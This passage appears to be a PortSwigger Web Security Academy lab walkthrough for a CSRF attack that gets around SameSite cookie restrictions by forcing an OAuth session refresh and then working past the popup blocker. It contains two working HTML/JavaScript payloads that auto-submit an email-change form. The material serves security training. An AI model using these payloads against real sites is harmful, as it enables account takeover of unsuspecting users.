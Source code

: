 3. Store and view the exploit yourself. What happens next depends on how much time has elapsed since you logged in:
    - If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
    - If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the **Proxy > HTTP history** tab, find the `POST /my-account/change-email` request and confirm that your session cookie was included even though this is a cross-site `POST` request.

##### Bypass the SameSite restrictions
1. In the browser, notice that if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.
2. From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.
3. Go back to the exploit server.
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is one possible approach:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>

 <script>
     window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
     setTimeout(changeEmail, 5000);
     function changeEmail(){
        document.forms[0].submit();
        }
 </script>`
```

Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
    
5. Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.  
6. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.


##### Bypass the popup blocker
1. Realize that the popup is being blocked because you haven't manually interacted with the page.
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>

    <p>Click anywhere on the page</p>

<script>
     window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000); }
     function changeEmail() {
     document.forms[0].submit(); 
     }
 </script>
```
3. Test the attack on yourself again while monitoring the proxy history in Burp.
4. When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes your new session cookie.